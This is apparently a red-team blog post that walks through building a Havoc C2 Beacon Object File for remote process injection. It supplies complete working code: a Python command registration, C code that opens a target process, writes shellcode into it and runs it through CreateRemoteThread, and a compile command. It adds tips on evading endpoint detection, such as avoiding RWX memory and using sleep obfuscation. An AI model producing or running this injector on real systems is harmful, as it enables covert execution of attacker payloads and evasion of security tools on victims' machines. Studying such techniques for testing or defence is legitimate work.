







[back to blog](../blog.md)

## Process Injection
This blog will outline a simple process injection in a remote process. The windows API that will be used are the following:

| Windows API | Usage 
| -------- | -------- 
| [Openprocess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) | Will be used to open the handle of target process. 
| [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) | Will be used for allocating memory in the target process, allocated memory size will depend on the shellcode size. 
| [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) | Writes the shellcode in the allocated memory address.
| [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) | Will be used for changing the memory permission to read,execute (RX) instead of Read, Write, Execute (RWX).
| [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) | Will be used for creating a thread on the target process inorder to execute our shellcode.
| [CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle) | Close the open handle.

When creating a BOF, I **highly recommend starting with C code first**. Run it to verify that it works, **and then convert it into a BOF** once confirmed, that it's working convert it to BOF. This will save up some time debugging some issues on the code.

## Aggressor script

This time we will start first with an aggressor script. Edit the script previously used and add the new python function.

```py
<SNIPPED>
def run_procinj(demon_id, *args):
    
    task_id: str = None
    demon: Demon = None
    packer: Packer = Packer() 
    # Get the beacon instance
    demon = Demon(demon_id)
    binary: bytes = None

    if len(args) < 2:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Not enough arguments")
        return False

    # Get shellcode path
    path = args[0]

    # Check if the shellcode path exists
    if not exists(path):
        demon.ConsoleWrite(demon.CONSOLE_ERROR, f"Shellcode not found: {path}")
        return False

    # Read the shellcode from the specified path into 'binary' variable
    with open(path, 'rb') as handle:
        binary = handle.read()

    if not binary:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Specified shellcode is empty")
        return False

    # Add the arguments to the packer
    packer.addbytes(binary)
    packer.addint(int(args[1]))

    task_id = demon.ConsoleWrite(demon.CONSOLE_TASK, f"Tasked the demon to execute process injection on the process ID: {args[1]}")
   
    demon.InlineExecute(task_id, "go", "bin/test2.o", packer.getbuffer(), False)
    #testbof procinj /home/kali/mdev/havocbof/demon.x64.bin 1992
    return task_id

<SNIPPED>
RegisterCommand(run_procinj, "testbof", "procinj", "Performs a process injection on the target process", 0, "usage: ", "4512")
```

## BOF

When writing BOF, you often use **DECLSPEC_IMPORT** in function declarations like **DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE)** so the linker knows the function is imported from Windows DLL like (e.g., kernel32.dll, advapi32.dll). The DECLSPEC_IMPORT and the $ prefixed symbol names to ensure Beacon can resolve them at runtime. **Module$Function**

Why it matters for BOFs:

- BOFs are compiled as object files (.o) without the standard runtime.
- You don’t link against Windows libraries directly.


More information at [DFR](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm)


```c
#include <windows.h>
#include "beacon.h"

//kernel32 dll
DECLSPEC_IMPORT WINBASEAPI LPVOID WINAPI KERNEL32$VirtualAllocEx(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$WriteProcessMemory(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$CreateRemoteThread(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$OpenProcess(DWORD, BOOL, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE);
DECLSPEC_IMPORT WINBASEAPI DWORD WINAPI KERNEL32$GetLastError(void);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$VirtualProtectEx(HANDLE, LPVOID, SIZE_T, DWORD, PDWORD);


void go(char* args, int argc){
    
    datap parser;
    DWORD procid;
    DWORD   dwOldProtection = NULL;
    PSTR  shellcode = { 0 };
    DWORD shellcodeLength    = { 0 };
    SIZE_T  sNumberOfBytesWritten = NULL;
    HANDLE pHandle;
    HANDLE rthreadHandle;
    PVOID bufferMemoryaddr;
    DWORD tid = 0;

    //Beacon data parser
    BeaconDataParse(&parser, args, argc);
    

    shellcode = BeaconDataExtract(&parser, &shellcodeLength);
    procid = BeaconDataInt(&parser);

    //prints hello world
    BeaconPrintf(CALLBACK_OUTPUT, "[!] Target PID: %d", procid);

    pHandle = KERNEL32$OpenProcess(PROCESS_ALL_ACCESS, FALSE, procid);
    if (!pHandle){
        BeaconPrintf(CALLBACK_OUTPUT, "[x] Failed to open process error code: %d\n", KERNEL32$GetLastError());
        return 1; //failure
    }

    bufferMemoryaddr = KERNEL32$VirtualAllocEx(pHandle, NULL, shellcodeLength, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!bufferMemoryaddr) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to allocate memory: %d\n", KERNEL32$GetLastError());
        return 1;
    }
    BeaconPrintf(CALLBACK_OUTPUT,"[!] memory allocated at: 0x%p\n", bufferMemoryaddr);

    if (!KERNEL32$WriteProcessMemory(pHandle, bufferMemoryaddr, shellcode, shellcodeLength, &sNumberOfBytesWritten)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] WriteProcessMemory Failed With Error : %d \n", KERNEL32$GetLastError());
        return 1;
    }
    if (!KERNEL32$VirtualProtectEx(pHandle, bufferMemoryaddr, shellcodeLength, PAGE_EXECUTE_READ, &dwOldProtection)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] VirtualProtectEx Failed With Error : %d \n", KERNEL32$GetLastError());
        return 1;
    }

    rthreadHandle = KERNEL32$CreateRemoteThread(pHandle, NULL, 0, (LPTHREAD_START_ROUTINE)bufferMemoryaddr, NULL, 0, &tid);
    if(!rthreadHandle){
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to create remote thread: %d\n", KERNEL32$GetLastError());
        return 1;
    }
    BeaconPrintf(CALLBACK_OUTPUT, "[!] remote thread id : %lu \n", tid);
    KERNEL32$CloseHandle(pHandle);

}
```

```bash
x86_64-w64-mingw32-gcc -c src/procinj.c -w -o bin/test2.o 
```
Get a shell, then execute the BOF. As shown from the screenshot below it shows the memory address that has been allocated on the target process and it's remote thread ID for debugging purpose.




Just a little information on how to check what was written on the memory address you can use **x64dbg, attach to the target process then press ctrl + g, paste the memory address**. In this screenshot I change my payload to msfvenom calc bin so it can be easier to read. As shown we can see the signatured `FC 48 83` and then the calc.exe


My havoc payload that I used, performs a sleep obfuscation technique with WaitForSingleObjextEx. TL;DR: Sleep obfuscation **changes the memory protection from RW to RX, and then back to RW** [sleep obfuscation](https://dtsec.us/2023-04-24-Sleep/)

To check what happens on sleep, use process hacker, check the target process and then go to the threads, locate the thread id. The screenshot below shows when it's on sleep. 


The screenshot below shows when it's not on sleep. As observe it's using winHTTP library for the communication.


If you are trying to perform a process injection on a process owned by other user or a process owned by NT authority and you dont have enough privilege. This wont be possible because of access control restrictions. But if you enable SeDebugPrivilege you will be able to injec.



I changed the VirtualAllocEx with page execute read write and comment out the VirtualProtectEx to see the difference and also without the sleep obfuscation from have. I used the metasploit calc here for POC.

As shown from the screenshot below the RWX stands out and most endpoint security solution flags this and gets highly detected, so the better approach is to change it to RX. If you change it to Read it wont be executed. Clicking on the RWX this shows what was written on that memory and it shows the metasploit calc.


References
- https://www.ired.team/offensive-security/code-injection-process-injection/process-injection
- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm
- https://dtsec.us/2023-04-24-Sleep

[back to blog](../blog.md)